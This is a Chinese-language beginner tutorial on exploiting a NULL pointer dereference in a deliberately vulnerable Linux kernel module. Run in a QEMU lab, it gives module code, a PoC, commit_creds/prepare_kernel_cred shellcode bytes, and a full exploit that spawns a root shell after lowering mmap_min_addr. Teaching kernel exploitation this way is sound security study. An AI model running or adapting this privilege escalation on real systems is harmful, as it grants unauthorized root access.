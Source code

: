 # 新手玩转`Linux Kernel`漏洞之`Null Pointer Dereference`
### 前言
> 这是我内核漏洞的入门篇, 不是很复杂, 希望能给徘徊在门外的小伙伴一点启发.

### 漏洞描述
> &nbsp;&nbsp;&nbsp;&nbsp;A NULL pointer dereference occurs when the application dereferences a pointer that it expects to be valid, but is NULL, typically causing a crash or exit.
### 漏洞代码
```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

void (*my_funptr)(void);

int bug1_write(struct file* file, const char* buf, unsigned long len){
    my_funptr();
    return len;
}

static int __int null_dereference_init(void){
    printk(KERN_ALERT "null_dereference driver init!\n");
    create_proc_entry("bug1", 0666, 0)->write_proc = bug1_write;
    return 0;
}

static void __exit null_dereference_exit(void){
    printk(KERN_ALERT "null_dereference driver exit\n");
}
module_init(null_dereference_init);
module_exit(null_dereference_exit);
```
*小结:* 这是一个`Linux Kernel Module`类型代码,载入内核执行初始化`null_dereference_init`. 在`proc`中创建一个`Entry`为`bug1`.当`write bug1`时, 会触发`Kernel`调用`bug1_write`函数,而`bug1_write`中的`my_funptr()`是一个空指针.建议大家去学习一下这段代码中不懂的点, 理解上面这段代码很是重要

### 编译`Module`
```bash
obj-m := null_dereference.o
KERNELDR := /home/bill/CTF/Kernel/linux-2.6.32/
PWD := $(shell pwd)
modules:
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules
modules_install:
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules_install
clean:
	$(MAKE) -C $(KERNELDR) M=$(PWD) clean
```
*需要注意的几点:* `KERNELDR`填写为自己机器的源码根目录, 我自己在`Ubuntu 12.04 i386`上面没有编译成功, 在`Ubuntu 16.04 64bit`上面编译成功了.

将`null_dereference.ko`放入到`busybox-1.19.4/_install/usr`中.
### Poc.c
```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>

char payload[] = "\xe9\xea\xbe\xad\xde"; //jmp 0xdeadbeef

int main(){
    mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "bill", 4); //call my_funptr
    return 0;
}
```
静态编译,放入`busybox-1.19.4/_install/usr`中,`gcc -static Poc.c -o Poc`.

### 调试
重新打包`rootfs.img`, 启动`Qemu`, `CTRL + ALT + 2`, 输入`gdbserver tcp::1234`,
![](./02.png)
`CTRL + ALT + 1`切回命令行,
```bash
insmod /usr/null_dereference.ko #载入Module
/usr/Poc
```
结果:

![result03](./03.png)

*结论*:证明执行了我们的`shellcode`.
### 提权
> 从普通用户提权到`root`用户.

### 知识点
> &nbsp;&nbsp;&nbsp;&nbsp;进程的特权等级是通过`struct cred`结构体来标识的.当一个进程的`uid,gid`为`0`, 就表明这是一个`root`进程,提权成功.

```c
struct cred {
	atomic_t usage;
	#ifdef CONFIG_DEBUG_CREDENTIALS
	atomic_t	subscribers;	/* number of processes subscribed */
	void		*put_addr;
	unsigned	magic;
#define CRED_MAGIC	0x43736564
#define CRED_MAGIC_DEAD	0x44656144
#endif
	uid_t		uid;		/* real UID of the task */
	gid_t		gid;		/* real GID of the task */
	uid_t		suid;		/* saved UID of the task */
	gid_t		sgid;		/* saved GID of the task */
	uid_t		euid;		/* effective UID of the task */
	gid_t		egid;		/* effective GID of the task */
	uid_t		fsuid;		/* UID for VFS ops */
	gid_t		fsgid;		/* GID for VFS ops */
	......
}
```

### Expolit
1. 思路: 执行`commit_creds(prepare_kernel_cred(0))`
```c
/*
 *prepare_kernel_cred - Prepare a set of credentials for a kernel service
 */
struct cred *prepare_kernel_cred(struct task_struct *daemon);
/*
 * commit_creds - Install new credentials upon the current task
 */
int commit_creds(struct cred* new)
```
2. 获取函数地址
```bash
/# grep prepare_kernel_cred /proc/kallsyms
c1069be0 T prepare_kernel_cred
/# grep commit_creds /proc/kallsyms
c1069a40 T commit_creds
```
3. 编写`shellcode`
```c
xor %eax, %eax
call 0xc1069be0 //prepare_kernel_cred
call 0xc1069a40 //commit_creds
ret
```
保存为`payload.s`
```bash
$ gcc payload.s -o payload -nostdlib -Ttext=0
$ objdump -d payload

00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	e8 d9 9b 06 c1       	call   c1069be0 <_end+0xc1068bd0>
   7:	e8 34 9a 06 c1       	call   c1069a40 <_end+0xc1068a30>
   c:	c3  
char payload[] = "\x31\xc0\xe8\xd9\x9b\x06\xc1\xe8\x34\x9a\x06\xc1\xc3";
```
4. 编写`exp.c`
```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
/*
 *xor %eax, %eax
 *call 0xc1069be0
 *call 0xc1069a40
 *ret
 */
char payload[] = "\x31\xc0\xe8\xd9\x9b\x06\xc1\xe8\x34\x9a\x06\xc1\xc3";

int main(){
    mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "bill", 4); //call my_funptr
		system("/bin/sh");
    return 0;
}
```
编译: `gcc -static exp.c -o exp`, 拷贝入'/usr'目录, 重新打包.
4. 提权
由于内核已经使用`mmap_min_addr`作为缓解措施, 我们需要让你重新为`0`.
```bash
#/ sysctl -w "vm.mmap_min_addr=0"
#/ mdkir -p /home/bill
#/ touch /etc/passwd
#/ touch /etc/group
#/ adduser bill
#/ insmod /usr/null_dereference.ko
#/ su bill
~$ /usr/exp
/home/bill #
```
结果图:

![result04](./04.png)

### 相关链接
[pwn4](http://pwn4.fun/2017/04/19/Linux%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%EF%BC%88%E4%BA%8C%EF%BC%89NULL-Pointer-Dereference/)
[相关文件下载](https://github.com/BBS-Bill-Gates/CTF/tree/master/Linux_Kernel_Vulnerability)
